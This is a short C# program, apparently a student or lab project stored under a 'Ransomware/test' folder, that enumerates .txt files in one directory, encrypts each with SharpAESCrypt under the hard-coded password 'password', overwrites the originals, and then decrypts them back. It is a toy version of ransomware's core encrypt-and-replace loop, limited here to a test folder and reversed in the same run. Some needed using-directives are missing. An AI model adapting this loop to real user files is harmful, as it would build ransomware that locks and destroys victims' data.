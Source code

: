 using System;
using SharpAESCrypt;

namespace Test
{
    class Program
    {
        static void Main(string[] args)
        {

          
            string dir = @"C:/Layer7Project/Ransomware/test/";
            List<string> files = new List<string>();
            DirectoryInfo d = new DirectoryInfo(dir);


           
            foreach (var file in d.GetFiles("*.txt"))
            {
                files.Add(file.ToString());
            }


            
            foreach (string file in files)
            {
                string encrypted_file = dir + "encrypted_file.txt";
                SharpAESCrypt.SharpAESCrypt.Encrypt("password", file, encrypted_file);
                File.Delete(file);
                File.Move(encrypted_file, file);
            }

            
            foreach (string file in files)
            {
                string decrypted_file = dir + "decrypted_file.txt";
                SharpAESCrypt.SharpAESCrypt.Decrypt("password", file, decrypted_file);
                File.Delete(file);
                File.Move(decrypted_file, file);
            }
        }
    }
}

